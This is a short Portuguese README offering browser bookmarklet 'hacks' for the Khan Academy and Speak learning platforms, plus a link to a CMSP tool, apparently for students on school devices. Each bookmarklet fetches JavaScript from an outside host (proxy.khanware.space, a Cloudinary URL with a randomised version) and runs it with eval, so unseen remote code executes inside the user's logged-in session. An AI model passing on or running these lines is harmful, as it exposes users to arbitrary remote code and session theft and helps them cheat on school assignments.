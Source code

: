 # Leia com atenção
## ***Esses hacks não funciona em rede nacional (por exemplo:SEDUC_TABLET, SEDUC_MAQ entre outras)***

### Codigos

Khan academy 

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

SPeak (não funcionando)

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))


CMSP(não faz redação nem redasp)

[https://cmspcheeto.squareweb.app/]
